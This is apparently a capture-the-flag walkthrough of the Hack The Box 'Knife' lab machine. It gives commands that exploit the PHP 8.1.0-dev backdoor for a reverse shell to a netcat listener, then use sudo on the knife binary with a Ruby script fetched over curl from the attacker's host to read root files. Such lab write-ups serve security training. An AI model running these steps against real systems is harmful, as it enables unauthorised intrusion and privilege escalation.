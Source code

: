# Knife
This is an Easy box, utilizes a recently famous vulnerability to gain access through RCE.

![Knife](../Images/htb_knife_1.png)

**Tools: nmap, whatweb, netcat.**

We begin with the nmap scan: 
> nmap -Pn -sC -sV --min-rate=10000 -p- 10.10.10.242

![Knife](../Images/htb_knife_2.png)

We can see that port 80 is open, but upon checking the webpage there's nothing important, not even in the source. A fuzzer also won't find anything useful.  
With the whatweb tool, we're able to see that the webpage uses PHP 8.1.0-dev, a version that had a backdoor installed through the official GitHub repository, and this vulnerability allows an attacker to perform a Remote Code Execution (RCE).

![Knife](../Images/htb_knife_3.png)

The exploit at the exploit-db page was causing me some trouble during my attempts to spawn a fully interactive shell, start a reverse shell or escalate my privileges, so I found another exploit at [**this github repo**](https://github.com/flast101/php-8.1.0-dev-backdoor-rce).

![Knife](../Images/htb_knife_4.png)

Start a netcat listener in your machine:
> nc -vnlp 9001

Then in another terminal window we can run the exploit with the command:
> python3 revshell_php_8.1.0-dev.py \<targetURL> \<hostIP> \<port>

![Knife](../Images/htb_knife_5.png)

With this, we get a reverse shell as the user 'james'. We can get the user flag from this account's home directory. 
> cat /home/james/user.txt

![Knife](../Images/htb_knife_6.png)

Next up, with 'sudo -l' we see that the user can run the 'knife' binary with sudo privileges. If we try to run it, we get the tool's help, and after reading through the options, we see this one:

![Knife](../Images/htb_knife_7.png)

We can create a Ruby script to either escalate our privileges, or, in this case, read the root flag right away:
> puts File.read("/root/root.txt")

Save it to a ruby file (.rb)  

I started a python http server in my machine:
> python3 -m http.server 80

![Knife](../Images/htb_knife_8.png)

Now we simply need to download the file with curl and then run the command to execute the script in the box: 
> curl \<hostIP>/rb.rb > /home/james/rb.rb  
> sudo knife /home/james/rb.rb

![Knife](../Images/htb_knife_9.png)

And the root flag is ours..

**That's all for this one!**  
Thanks for reading and keep hacking!
